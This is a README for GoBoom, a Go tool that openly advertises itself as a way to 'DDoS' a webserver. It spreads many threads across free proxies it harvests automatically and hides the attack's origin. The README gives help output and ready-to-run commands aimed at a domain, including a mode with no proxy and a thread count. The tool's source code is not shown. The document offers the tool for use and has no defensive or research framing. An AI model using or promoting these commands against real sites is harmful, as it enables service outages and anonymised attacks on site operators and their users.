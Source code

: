 
# GoBoom

A simple tool to "DDoS" a webserver via multiple threads each using a different proxy



## Features

- Auto harvest of multiple sources for free proxy
- Possibility to add file with your own proxy (ip:port format)
- Possibility to set your own threads limit


## Usage/Examples
### Help
```shell
go run GoBoom.go -h

usage: GoBoom [-h|--help] -d|--domain "<value>" [-t|--threads "<value>"]
              [-p|--proxy-file "<value>" [-p|--proxy-file "<value>" ...]]
              [-m|--mode <integer>]

              Boom some website by proxy

Arguments:

  -h  --help        Print help information
  -d  --domain      Domain to boom
  -t  --threads     Number of threads. Default: max
  -p  --proxy-file  Proxy file(s), separate with a ',' each files. Format of
                    file(s) must be ip:port. Default: []
  -m  --mode        Mode of attack, 1 for pass all traffic trough proxy, 2
                    don't use proxy. Default: 1
```
### With Golang
```shell
git clone https://github.com/ugomeguerditchian/GoBoom
cd GoBoom
go run GoBoom.go -d example.com
```
### With binaries
Open it in a terminal and add your args
```shell
GoBoom.exe -d example.com 

```
### Add your own proxy file
You can add your own file containing proxy :
```shell
    go run GoBoom.go -d example.com -p C:\myfile1.txt,C:\myfile2.txt

```

### Use GoBoom without proxy
You have to specify the number of threads you want to use
```shell
    go run GoBoom.go -d example.com -t 100 -m 2

```



## Authors

- [@ugomeguerditchian](https://github.com/ugomeguerditchian)

## Contributors

- [@lisandro-git](https://github.com/lisandro-git)

